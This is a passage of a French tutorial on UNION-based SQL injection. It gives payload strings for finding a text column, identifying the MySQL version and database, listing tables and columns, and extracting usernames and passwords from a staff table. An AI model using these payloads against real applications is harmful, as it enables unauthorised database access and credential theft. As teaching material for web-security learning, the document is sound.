 ## Identifier une colonne de type string
Ensuite, on identifie une colonne qui nous permettra de récupérer des informations utiles (à la place des `NULL`) et donc qui soit compatible avec une chaîne de caractère.
Par exemple, avec 3 colonnes :
```sql
' UNION SELECT 'a', NULL, NULL--
' UNION SELECT NULL, 'a', NULL--
' UNION SELECT NULL, NULL, 'a'--
```

## Identifier la structure des tables
Supposons que 3 colonnes soient renvoyées et que la dernière soit une string.
Maintenant, on veut récupérer des informations sur la db, le nom des tables, etc. Voici un exemple pour **MySQL**.
```sql
-- Vérifie qu'il s'agit bien de MySQL
'' UNION SELECT NULL, NULL, @@version

-- Donne le nom de la db actuelle
'' UNION SELECT NULL, NULL, database()

-- Liste les tables de la bd <db_name>
'' UNION SELECT NULL, NULL, group_concat(table_name) FROM information_schema.tables WHERE table_schema='<db_name>'

-- Liste les colonnes de la table <table_name>
'' UNION SELECT NULL, NULL, group_concat(column_name) FROM information_schema.columns WHERE table_name='<table_name>'
```

La même logique s'applique pour les autres type de db (**MySQL**, **Oracle**, **PostgreSQL** et **Microsoft**) mais avec des syntaxes différentes : https://portswigger.net/web-security/sql-injection/cheat-sheet

Pour MySQL, PostegreSQL et Microsoft les lignes suivantes fonctionnent (cas simple où on peut renvoyer plusieurs lignes en sortie, donc pas besoin de `group_concat` ou équivalent).
```sql
-- Donne le nom de toutes les tables
'' UNION SELECT NULL, NULL, table_name FROM information_schema.tables--

-- Liste les colonnes de la table <table_name>
'' UNION SELECT NULL, NULL, column_name FROM information_schema.columns WHERE table_name='<table_name>'
```
## Exfiltrer des données
A partir de là, on a toutes les informations nécessaires sur la structure des tables et on peut exfiltrer les données souhaitées.
```sql
-- Récupération d'une ligne
'' UNION SELECT NULL, NULL, password FROM staff_users WHERE username='martin' 

-- Récupération de toutes les lignes
'' UNION SELECT NULL, NULL, group_concat(username, ':', password SEPARATOR '<br>') FROM staff_users
```
